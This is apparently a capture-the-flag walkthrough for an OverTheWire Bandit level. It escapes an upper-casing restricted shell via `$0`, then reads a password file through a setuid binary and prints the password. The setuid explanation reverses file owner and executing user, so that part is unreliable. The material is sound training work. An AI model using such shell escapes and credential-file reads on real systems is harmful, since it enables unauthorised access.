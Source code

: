 ## Bandit Level 33 — UPPERCASE SHELL

### Description

After all this git stuff, it’s time for another escape. Good luck!

### Walkthrough

After login, we immediately get to a custom shell apparently called `UPPERCASE SHELL`:
```bash
WELCOME TO THE UPPERCASE SHELL
>>
```
When typing commands like `ls` or `bash`, the shell automatically converts them to uppercase — which fails because Linux is case-sensitive:
```bash
>> cat
sh: 1: CAT: Permission denied
>> ls
sh: 1: LS: Permission denied
```
The current shell’s executable is referenced by `$0`. Since `$0` already contains the correct lowercase path, we can just run:
```bash
>> $0
```
Now we get the `sh` shell:
```bash
$ ls -l
total 16
-rwsr-x--- 1 bandit33 bandit32 15140 Apr 10 14:23 uppershell
$
```
That is interesting; Because it has the setuid bit set. This means that when this binary is executed, it runs with the privileges of the file owner (in this case, `bandit32`), not the user who executed it (`bandit33`). Since we already get the shell through this binary, we have the privilege escalation:
```bash
$ whoami
bandit33
```
Nice! Now all we have to do is to read the password for the next level:
```bash
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
```